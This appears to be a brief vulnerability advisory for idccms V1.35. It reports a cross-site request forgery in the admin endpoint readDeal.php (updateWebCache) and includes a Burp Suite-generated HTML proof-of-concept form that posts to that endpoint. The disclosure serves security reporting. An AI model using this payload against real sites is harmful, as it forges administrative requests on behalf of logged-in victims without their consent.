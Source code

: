 
target:http://idccms.com/
version: V1.35

idccms V1.35 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  http://127.0.0.1:80/admin/readDeal.php?mudi=updateWebCache&_=1714026444584

POC:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:80/admin/readDeal.php?mudi=updateWebCache&_=1714026444584" method="POST">
      
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
